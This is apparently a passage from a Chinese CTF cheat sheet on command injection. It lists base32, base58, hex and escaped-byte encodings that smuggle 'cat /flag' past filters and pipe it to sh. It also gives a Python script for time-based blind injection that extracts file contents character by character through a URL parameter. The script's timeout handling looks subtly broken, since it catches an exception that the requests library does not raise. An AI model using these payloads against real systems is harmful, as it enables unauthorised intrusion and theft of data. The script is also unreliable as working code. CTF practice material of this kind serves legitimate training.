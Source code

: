 ### base32

- `cat /flag` -> `echo MNQXIIBPMZWGCZY= | base32 -d | sh`

### base58

- `cat /flag` -> `echo 2GNQyDr4iit1c | base58 -d | sh`

### HEX 编码

- `cat /flag` -> `echo 636174202f666c6167 | xxd -r -p | sh`

### shellcode

- `cat /flag` -> `echo -ne "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67" | sh`

- `cat /flag` -> `printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67" | sh`

## 无回显时间盲注

- `cat /flag` -> `if [ $(cat /flag | awk NR==1 | cut -c 1) == a ];then sleep 2;fi`
  - `awk NR==1`表示输出第一行
  - `cut -c 1`表示输出第一个字符

```python
import requests
import time

def handle_exp(exp):
    return exp

url = "http://192.168.1.1/1.php"
param = "a"
cmd = "cat /flag"
result = ""

for line in range(1, 10):
    for letter in range(1, 50):
        for acc in range(32, 126):
            exp = f"if [ $({cmd} | awk NR=={line} | cut -c {letter}) == {chr(acc)} ];then sleep 3;fi"
            # print(exp)
            try:
                res = requests.get(url + f"?{param}={handle_exp(exp)}", timeout=2)
                # data = {param: cmd}
                # res = requests.post(url=url, data=data)
            except TimeoutError:
                result += chr(acc)
                print(chr(acc))

print(result)
```
